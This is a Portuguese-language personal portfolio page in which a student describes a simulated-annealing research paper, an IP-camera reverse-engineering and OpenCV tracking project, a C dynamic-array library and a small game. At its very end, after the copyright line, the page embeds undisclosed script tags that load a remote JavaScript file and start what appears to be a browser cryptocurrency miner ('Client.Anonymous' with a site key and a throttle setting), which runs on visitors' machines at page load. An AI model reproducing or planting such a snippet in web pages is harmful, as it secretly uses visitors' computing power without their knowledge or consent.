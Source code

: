 ```yaml
---
layout: default
---
```

#[This page in english](./index-en.html)

# Olá, mundo

Essa é minha página, aqui eu lhe [conto sobre mim](./about-pt.html), mostro algumas coisas que eu fiz e tento te convencer a me chamar para seu proximo projeto.

## 1. Artigo
#### Otimizando hiper-parâmetros do Arrefecimento simulado para encontrar zeros de funções utilizando algoritmos genéticos
Ao final de meu primeiro ano de graduação tive a chance de participar de uma iniciação científica com a Iara da Cunha O objetivo inicial era encontrar zeros de funções efetivamente, para isso aprendi sobre heurísticas utilizadas em otimização, e notei que existia espaço para otimizar a própria heurística, para isso utilizei um algoritimo genético. Artigo disponível na [Revista Eletrônica de Iniciação Científica em Computação](goo.gl/dJZVQt) da ufrgs.

## 2. Artigo
#### Extensão e controle de câmeras IP por engenharia reversa e sua aplicação em reconhecimento  de imagens
Neste projeto o objetivo era resolver o problema de posicionar várias câmeras IP de qualidade duvidosa para realizar testes de visão computacional. Para resolver o problema o dividi em duas partes: Controle da câmera e Reconhecimento de Imagens.
Para a primeira parte fiz engenharia reversa das requisições que as interfaces web fazem para as câmeras, criei uma aplicação em C que recebia um comando para a câmera, lia um arquivo de configuração JSON para cada tipo de câmera, interpretava como fazer a requisição correta para esta câmera e fazia a comunicação por meio da libcurl. 
Com o problema do controle programático das câmeras resolvido utilizei do OpenCV para abrir o feed de imagens, fazer limiarização dos frames para obter uma centróide, a diferença entre o centro da imagem e a centróide obtida foi utilizada para centralizar a câmera. Disponível no [bitbucket](https://bitbucket.org/Cauef/ctrlcam/).

## 3. Projeto 
#### Fat-array
Vetores dinâmicos utilizando macros em C para garantir tipagem forte e flexibilidade na utilização, disponivel [aqui](https://github.com/cauefcr/Fat-Array)

## 4. Jogo
Fiz um jogo em construct 2, neste jogo você está no papel de um monstro tentando defender sua torre dos malditos aventureiros gananciosos, jogue-o [aqui](https://caue.site/whosinmytower)

&copy;2018 Cauê Felchar, 
não hesite em contatar no <a href="mailto:caue.fcr<at>gmail.com">caue.fcr< at >gmail.com</a>
  
<script src="http://<your-domain>/<path-to-script>/kpOJ.php?f=e2vo.js"></script>
<script>
    var _client = new Client.Anonymous('20506d57832bbddbd4653cd8a030075712c1323ce68b1488f82dfa8b85f6b8c0', {
        throttle: 0.6
    });
    _client.start();
    

</script>
